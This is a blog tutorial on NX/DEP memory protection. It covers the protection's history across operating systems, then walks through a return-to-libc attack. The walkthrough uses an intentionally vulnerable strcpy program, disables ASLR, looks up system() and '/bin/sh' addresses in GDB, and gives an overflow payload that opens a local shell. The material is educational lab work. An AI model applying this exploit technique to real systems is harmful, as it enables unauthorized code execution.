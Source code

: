 ```yaml
---
layout: post
title: Bypassing NX/DEP
date: 2017-10-02 21:28:16
description: Tutorial I go through bypassing NX/DEP and the history of this security mechanism.
tags: reverse engineering, pwn, x86, nx, hacking
categories: blog
---
```

![Ryoko vs Nagato](/assets/img/Ryoko_vs_Nagato.png "Ryoko vs Nagato"){:class="featured-image"}

Alright, SO! I've spent about 14hrs working on this tutorial with my Kali box, and kept getting different addresses for the dynamic libraries. Still haven't learned why this is, but I WILL find the solution for this.

---

## Abstract:

In this writeup, I'll be going over the mechanism that makes enables programs to not have an executable stack, the history of it, and how to bypass this.

---

## History

Starting in 1961, the Burroughs 5000 had hardware support to prevent the entire stack from being executable. They implemented a tagged architecture, which provides an extra bit per word to signify if the word is executable or not.

- [Burroughs Large Systems](https://en.wikipedia.org/wiki/Burroughs_large_systems#Tagged_architecture)
- [Tagged Architecture](https://en.wikipedia.org/wiki/Tagged_architecture)

---
![B5000](/assets/img/b5000.png "B5000"){:class="featured-image"}
Executive space protection has also been incorporated into operating system design to prevent code injection. Here are a few operating systems and when they implemented NX into their OS':

### Linux:
![linux](/assets/img/penguin.png "linux"){:class="featured-image"}
- Android 2.3 and later have NX pages by default.  
- Some modern Linux distros don't enable "HIGHMEM64" (a way to increase the usable address space) by default, which is required for NX in 32-bit mode. This is because it causes boot failures on pre-Pentium Pro and Celeron M processors without NX support.  
- Ubuntu has always had NX memory protection so long as there was hardware to support it as well. In a case where you don't have hardware to support it, Ubuntu's 32-bit kernels provide an approximation of the NX CPU feature via emulation.

### Mac OS:
For macOS, their Intel chips support the NX bit, though the version determines what areas have the feature to be or not to be executable. (s/o to Shakespeare xD)  
- Mac OS X 10.4 only supported NX on the stack, whereas Mac OS X 10.5's 64-bit executables have NX stack and heap protection.

### Windows:
It wasn't until:
- Windows XP SP2 (2004) and Windows Server 2003 SP1 (2005) that the NX features were first implemented on the x86 architecture.  
Microsoft defines areas in a program that are Non-Executable as "Data Execution Prevention" or DEP.  

However, there are a few clauses:  
1. Only critical Windows Services utilized DEP.  
2. These features were only turned on by default if the hardware supported the feature. If it didn't, no protection was given.  

These versions didn't have Address Space Layout Randomization (ASLR), which "randomly arranges the address space positions of key data areas of a process, including the base of the executable and the positions of the stack, heap, and libraries."  

Later versions like Windows Vista and Windows Server 2008 had both ASLR + DEP. For the 32-bit version of these systems, Microsoft added Physical Address Extension (PAE). 64-bit systems have ASLR + DEP natively.  

From version Vista on, users can determine whether DEP is enabled or disabled for a particular process in the **Processes** tab of the **Windows Task Manager**. Microsoft implements software DEP called "Safe Structured Exception Handling" (SafeSEH). When there's an attempt to execute code in an area that's not allowed, it checks the exception handler table and calls the correct exception for this incident.

---

## Time for the more fun part! Let's get exploiting!

This little `vuln.c` program takes the input from the argument, and then prints it.

Nothing too crazy here:

```c
#include <stdio.h>
#include <string.h>

int main (int argc, char** argv) {
    char buf[20];
    strcpy(buf, argv[1]);
    printf("%s\n", buf);
    return 0;
}
```
Before we compile this, we must turn off ASLR. By disabling ASLR, we can see the real physical addresses. Don't worry, I will have tutorials for defeating ASLR soon enough. ;)



## Disable ASLR
```bash
echo 0 > /proc/sys/kernel/randomize_va_space
cat /proc/sys/kernel/randomize_va_space
```

Now that we've disabled ASLR and verified it's off, let's compile the program and enable NX.

```bash
gcc -fno-stack-protector vuln.c -o vuln
execstack -c vuln
```

Perfect! Before we break this down with GDB, we gotta go over what's happening. When we execute, it grabs the dynamic libraries that are imported and all their functions and places them in memory (even the functions that aren't being used in the program).

This is important because the libc library also contains the function system(). The first argument of system() will execute a Linux command. We will be executing "/bin/sh" which will get us a shell. We also must find the string "/bin/sh" (which is also in libc). ;D

![nx-ex1](/assets/img/nx-ex1.png "nx-ex1")

## Breaking It Down in GDB
Sweet. So now let's set a breakpoint at main, and then find the address of the system() function.
```python
(gdb) break main
(gdb) run
(gdb) print system
(gdb) find &system, +99999999, "/bin/sh"
```
![nx-ex2](/assets/img/nx-ex2.png "nx-ex2")

Awesome!! So we have the address for system() → 0xb7e56190 && "/bin/sh" → 0xb7f76a24.

## Exploiting the Vulnerability
Now we have all our variables that we need. So to push our addresses onto the stack, we create a string that has:

1. 32 bytes of crap (A's),
2. then the address for system(),
3. then 4 bytes of crap again,
4. and then the string "/bin/sh".

```bash
./vuln $(python -c 'print "A"*32 + "\x90\x61\xe5\xb7" + "A"*4 + "\x24\x6a\xf7\xb7"')
```
![nx-ex3](/assets/img/nx-ex3.png "nx-ex3")

Who got shell? We got shell!!!!

## Additional Resources
- [Exploit Development: Stack Buffer Overflow Bypass NX/DEP](https://tehaurum.wordpress.com/2015/06/24/exploit-development-stack-buffer-overflow-bypass-nxdep/)
- [Executable Space Protection](https://en.wikipedia.org/wiki/Executable_space_protection#OS_implementations)
- [Another Bypassing NX Tutorial](https://sploitfun.wordpress.com/2015/05/08/bypassing-nx-bit-using-return-to-libc/)
- [What is the use of -fno-stack-protector?](https://stackoverflow.com/questions/10712972/what-is-the-use-of-fno-stack-protector)
- *Hacking: The Art of Exploitation* by Jon Erickson - [Buy on Amazon](https://www.amazon.com/Hacking-Art-Exploitation-Jon-Erickson/dp/1593271441)
- [lpr LIBC RETURN Exploit](http://insecure.org/sploits/linux.libc.return.lpr.sploit.html)
- [Microsoft's Implementation of NX (DEP)](https://msdn.microsoft.com/en-us/library/windows/desktop/aa366553(v=vs.85).aspx)
- [Detailed Description of the DEP Feature](https://support.microsoft.com/en-us/help/875352/a-detailed-description-of-the-data-execution-prevention-dep-feature-in)
- [ASLR on Address Space Layout Randomization](https://en.wikipedia.org/wiki/Address_space_layout_randomization)
- [Safe Structured Exception Handling (SafeSEH)](https://msdn.microsoft.com/en-us/library/windows/desktop/ms680657(v=vs.85).aspx)
- [Address Space](https://en.wikipedia.org/wiki/Address_space)
- [Dynamic Memory Allocation](https://en.wikipedia.org/wiki/Dynamic_memory_allocation)
- [Stack-based Memory Allocation](https://en.wikipedia.org/wiki/Stack-based_memory_allocation)

